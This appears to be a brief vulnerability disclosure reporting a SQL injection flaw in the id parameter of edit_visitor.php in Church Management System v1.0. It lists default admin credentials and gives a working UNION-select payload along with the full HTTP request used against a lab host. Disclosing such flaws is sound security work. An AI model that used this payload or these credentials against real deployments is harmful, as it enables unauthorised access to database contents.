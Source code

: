 # Church Management System v1.0 by Godfrey De Blessed has SQL injection

BUG_Author: XuBoyu

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/11206/church-management-system.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /cman/admin/edit_visitor.php?id=

Vulnerability location: /cman/admin/edit_visitor.php?id=, id

dbname = cman

[+] Payload: /cman/admin/edit_visitor.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ // Leak place ---> id

```sql
GET /cman/admin/edit_visitor.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=fjhrjdpuej6edqv5haoadpj3lc
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183248856-b6c74dd4-7312-4e38-8fb3-41146773c845.png)
